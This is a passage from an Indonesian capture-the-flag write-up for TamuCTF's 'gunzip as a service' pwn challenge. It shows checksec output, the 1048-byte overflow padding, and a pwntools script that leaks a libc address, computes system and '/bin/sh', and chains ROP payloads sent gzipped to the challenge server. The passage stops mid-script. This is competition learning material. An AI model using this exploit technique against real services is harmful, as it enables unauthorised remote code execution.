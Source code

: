 ```
[*] '/home/chao/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE/gunzipasaservice'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
$ AAAA

gzip: stdin: not in gzip format
[*] Got EOF while reading in interactive
$  
```
Dan benar saja, inputan kami-pun terbaca. Namun karena format inputan kami bukan merupakan **gzip** maka terjadi error.<br>
Di stage ini, kami berhasil memastikan padding yang benar yaitu **1048**. Lanjut ke stage berikutnya, kami mencoba untuk melakukan ROP dengan memanggil **system('/bin/sh')** pada libc.<br>
Berikut merupakan scriptnya.<br>
```
def exploit1():
    # p = process("./gunzipasaservice")
    p = remote("challenges.tamuctf.com", 4709)
    binary = ELF("./gunzipasaservice")
    bss = 0x0804c044 + 0x100

    # payload = open("test.gz", "rb").read()
    payload = ''
    payload += 'A' * 1048
    payload += p32(binary.plt['write'])
    payload += p32(binary.symbols['main'])
    payload += p32(1)
    payload += p32(binary.got['read'])
    payload += p32(0x10)

    open("leak", "w+").write(payload)
    os.system("gzip leak")

    leak = open("leak.gz", "rb").read()

    p.send(leak)
    os.system("rm leak.gz")

    libc_leak = u32(p.recv(4))
    log.info("Libc leak : {}".format(hex(libc_leak)))
    # libc_base = libc_leak - 0x018d90
    libc_base = libc_leak - 0x0ba2d0
    log.info("Libc base : {}".format(hex(libc_base)))
    # libc_system = libc_base + 0x03d200
    libc_system = libc_base + 0x035980
    log.info("Libc system : {}".format(hex(libc_system)))
    # libc_binsh = libc_base + 0x17e0cf
    libc_binsh = libc_base + 0x16026c
    log.info("Libc /bin/sh : {}".format(hex(libc_binsh)))

    payload = ''
    payload += 'A' * 1048
    payload += p32(binary.symbols['read'])
    payload += p32(binary.symbols['main'])
    payload += p32(0)
    payload += p32(bss)
    payload += p32(0x10)

    open("read_binsh", "w+").write(payload)
```